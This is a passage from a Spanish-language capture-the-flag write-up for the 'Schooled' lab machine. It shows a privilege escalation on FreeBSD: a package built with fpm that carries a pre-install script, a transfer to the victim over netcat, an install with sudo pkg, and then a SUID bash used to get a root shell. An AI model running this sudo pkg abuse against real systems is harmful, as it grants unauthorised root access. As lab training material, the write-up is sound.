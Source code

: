 ```bash
~$> fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}
```
Nos ponemos en escucha en nuestra máquina, con **netcat** por el puerto **443**, para transferir el fichero que acabamos de crear (**x-1.0.txz**)

```bash
~$> nc -nlvp 443 < x-1.0.txz
listening on [any] 443 ...
```
Y nos conectamos desde la máquina víctima, igualmente con **netcat** por el puerto **443**, para recibir el fichero que habíamos creado (**x-1.0.txz**)

```bash
jamie@Schooled:~ $ nc [TU_IP] 443 > x-1.0.txz
```

Vemos que recibimos una conección a nuestra máquina y se descargó el fichero (**x-1.0.txz**) en la máquina víctima

```bash
jamie@Schooled:~ $ ls
user.txt        x-1.0.txz
```
Ejecutamos este comando en la máquina víctima:

```bash
jamie@Schooled:~ $ sudo /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz
```
```bash
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
Extracting x-1.0:   0%
pkg: File //tmp/tmp.tEHHdxCGFv/x.sh not specified in the manifest
Extracting x-1.0: 100%
```
Leemos los permisos de la **bash**

```bash
jamie@Schooled:~ $ ls -l /usr/local/bin/bash
-rwsr-xr-x  1 root  wheel  941288 Feb 20  2021 /usr/local/bin/bash
```
Y vemos que tiene asignados permisos **SUID**, lo que nos permitirá ejecutar una bash como **root**, pudiendo así entrar en en directorio ```/root``` y visualizar la flag

```bash
jamie@Schooled:~ $ /usr/local/bin/bash -p
[jamie@Schooled ~]#
```
```bash
[jamie@Schooled ~]# whoami
root
```
```bash
[jamie@Schooled ~]# cd /root
[jamie@Schooled /root]# cat root.txt
```
